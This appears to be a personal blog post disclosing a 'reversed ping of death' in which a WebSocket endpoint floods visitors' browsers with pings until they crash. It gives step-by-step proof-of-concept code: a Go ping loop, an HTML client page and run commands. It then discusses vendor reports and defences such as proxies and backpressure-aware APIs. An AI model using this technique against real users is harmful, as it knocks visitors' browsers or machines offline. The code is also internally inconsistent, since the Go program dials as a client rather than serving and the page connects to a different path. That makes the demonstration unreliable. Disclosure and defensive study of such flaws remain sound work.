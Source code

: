 ```yaml
---
title: WebSockets Reversed Ping of Death
published: 2025-06-10
draft: false
lang: en
description: WebSockets Reversed Ping of Death
tags: []
---
```


**Warning:** The following action may cause a visitor’s browser or even their computer to crash. This information is provided for educational purposes only. Use it responsibly.

I do not encourage or condone the misuse of this knowledge, and I disclaim any responsibility for any damage, disruption, or unintended consequences resulting from its use. Proceed at your own risk.

---

One of the first things someone learns in martial arts is that when you hold someone, that someone holds you too. If, for example, that someone falls on purpose while you’re holding them tightly, chances are you might fall too.

Even though there isn’t a special name for this idea, it can be found in Aiki martial arts principle, where the main point is that the opponent’s energy becomes a tool in your hands if you redirect it wisely.

When you write a program that handles WebSocket connections, one of the main security concerns is preventing a client from flooding you with messages or pings with bad intentions.

But what if I told you that, on the other side, no browser checks if someone attacks with abnormal load of WebSocket messages or pings in bad faith — and just ends up crashing?

---

You can easily test this yourself:

1. Bookmark this page first, so you can return after a crash.

2. Write a Go program that opens a WebSocket connection and continuously sends pings in a highly repetitive loop:

```go
// main.go
package main

import (
    "log"
    "github.com/gorilla/websocket"
)

func main() {
    url := "ws://localhost:3001"
    conn, _, err := websocket.DefaultDialer.Dial(url, nil)
    if err != nil {
        log.Fatal("Error connecting to WebSocket:", err)
    }
    defer conn.Close()

    for {
        err := conn.WriteMessage(websocket.PingMessage, nil)
        if err != nil {
            log.Println("Error sending ping:", err)
            return
        }
    }
}
```

3. Write an HTML page that connects to this WebSocket connection:

```html
<!-- index.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>WebSocket Reversed Ping of Death</title>
</head>
<body>
    <h1>WebSocket Reversed Ping of Death</h1>

    <script>
        const socket = new WebSocket("ws://localhost:3001/ws");

        socket.onerror = (error) => {
            console.error("WebSocket error:", error);
        };

        socket.onopen = () => {
            console.log("WebSocket connected.");
        };

        socket.onclose = () => {
            console.log("WebSocket closed.");
        };

        socket.onmessage = (event) => {
            console.log("WebSocket received:", event.data);
        };
    </script>
</body>
</html>
```

4. Run the Go program:

```bash
go mod init main
go mod tidy
go run main.go
```

5. Start a simple HTTP server to serve `index.html`:
   (If port 3002 is not available, pick another one, e.g., 3003…)

```bash
python3 -m http.server 3002
```

6. Open the page in your browser. For example:
   (If port 3002 was not available, use the other port you picked)

```
http://localhost:3002
```

---

Of course, the reason I’m writing these lines is not to enable script kiddies to annoy others, but to highlight a problem and propose a solution. Just to clarify, I am publishing this article only after having contacted major browser developers and submitted bug reports to ensure better client-side security checks for everyone.

Until all browsers implement a check, you can take care of yourself, by:

* If visiting a site crashed your computer, be aware that it’s possible and that it may be just this method described above used. Don’t panic and don’t believe everything.
* If you develop an application that depends on a third-party WebSocket, then make sure that you really trust the provider of it.

---

It’s the browsers that need to protect you from such a problem since the WebSocket API of them (which is kind of the same across all of them) doesn’t expose you the pings. This means that even if you write code that may find abnormal load of messages — good, perfect — but… you will never be able to see an abnormal load of pings, as you don’t get them at all like they don’t exist.

Using a custom proxy made to bypass and check the connection could be a real solution, as a proxy being a whole program, freed from the limitations of browsers, could detect abnormal loads of everything, including pings and kill the connection if needed.

I don’t provide the code to such a thing because this is simply opening other problems like what if someone abuses your proxy, so it’s a solution that needs to be implemented carefully and maybe customized.

---

Back to browsers, it’s worth noting that there are actually two other ways to have a WebSocket connection that claim to try to solve such problems. Well, they don’t talk exactly about the problem above (especially with the ping case), but they talk about almost the same and they call it **“backpressure”**. From Mozilla Developer Network:

> **Backpressure**
> An important concept in streams is backpressure — this is the process by which a single stream or a pipe chain regulates the speed of reading/writing. When a stream later in the chain is still busy and isn't yet ready to accept more chunks, it sends a signal backwards through the chain to tell earlier transform streams (or the original source) to slow down delivery so that you don't end up with a bottleneck anywhere.

[https://developer.mozilla.org/en-US/docs/Web/API/Streams\_API/Concepts#backpressure](https://developer.mozilla.org/en-US/docs/Web/API/Streams_API/Concepts#backpressure)

Those two other ways are **WebTransport API** and **Streams API**. Both are great but very fresh, in contrast to the WebSocket API which has been around for more than a decade. They are so fresh that the first is not supported by Safari and the second is not supported by Firefox. And even the browsers that support one or the other do so only in very recent versions (and experimentally, I would guess).
